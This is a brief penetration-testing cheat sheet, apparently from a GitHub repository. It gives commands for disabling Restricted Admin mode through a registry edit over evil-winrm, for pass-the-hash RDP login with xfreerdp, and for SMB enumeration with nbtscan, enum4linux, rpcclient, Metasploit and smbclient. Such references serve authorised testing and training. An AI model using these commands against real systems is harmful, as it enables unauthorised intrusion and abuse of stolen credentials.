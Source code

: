 > Modify the registry

Sometimes its neccesary to add a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. 

If it doesn't allow connection with xfreerdp, we connect using evilwinrm:

```
evil-winrm -i <IP> -u <username> -p <password>
```

And it is neccessary to write this:

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use `xfreerdp`  to gain RDP access.

> Pass the hash

```
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP>
```



## SMB (SAMBA)

> Scan network

```
nbtscan -r <range>
```

> Enumerating information with Enum4linux

Command syntax:

```
enum4linux -U -o -d <IP>
```

> Other commands for enumeration:

```
nmblookup -A <IP>

tpcclient -U "" <IP>
```

> Metasploit

```
[msf] > use auxiliary/scanner/smb/smb_login
```

> List the shared resources of an SMB server:

Command syntax:

```
smbclient -L \\\\<IP>
```
